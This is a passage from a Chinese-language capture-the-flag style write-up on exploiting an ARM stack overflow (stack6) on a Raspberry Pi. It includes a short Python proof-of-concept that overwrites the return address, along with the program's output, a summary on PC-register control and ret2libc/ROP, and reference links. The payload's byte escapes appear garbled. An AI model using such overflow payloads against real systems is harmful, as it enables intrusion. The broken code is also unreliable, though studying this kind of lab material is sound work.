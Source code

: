 `poc.py`

```
import struct
padding = "11111111111111111111111111111111111111111111111111111111111111111111111111111111"
print padding + "x80x03x01x00"
```

执行结果，直接退出：

```
pi@raspberrypi:~/Desktop/ARM-challenges $ ./stack6 &lt;exp
input path please: got path 1111111111111111111111111111111111111111111111111111111111111111x♣
pi@raspberrypi:~/Desktop/ARM-challenges $
```



## 小结

当我分析到绕过bf开头的堆栈检测这个保护机制的时候，我在一个程序的执行流程这个花了些时间，得到一个小点：`程序向下执行都是依靠PC寄存器，即使返回到上一个栈帧也是将返回地址赋值给PC寄存器`，**掌控PC你就掌控了一切**

使用ret2libc+ROP技术的时候，我们需要找到的是plt表内存在的函数入口地址，才继续接下来的执行



## 参考

> [exploitation-on-arm](https://www.exploit-db.com/docs/english/14548-exploitation-on-arm---presentation.pdf)<br>[ret2ZP技术的一些实际的例子](https://doc.lagout.org/security/XXXX_ARM_exploitation.pdf)<br>[github上的开源工具ROPgadget Tool](https://github.com/JonathanSalwan/ROPgadget)<br>[Fix the run-time error by CS_ARCH_SPARC](https://github.com/wonhongkwon/ROPgadget/commit/8e520b8304bcad48a701d1a6860a822140536025)<br>[基本ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/)
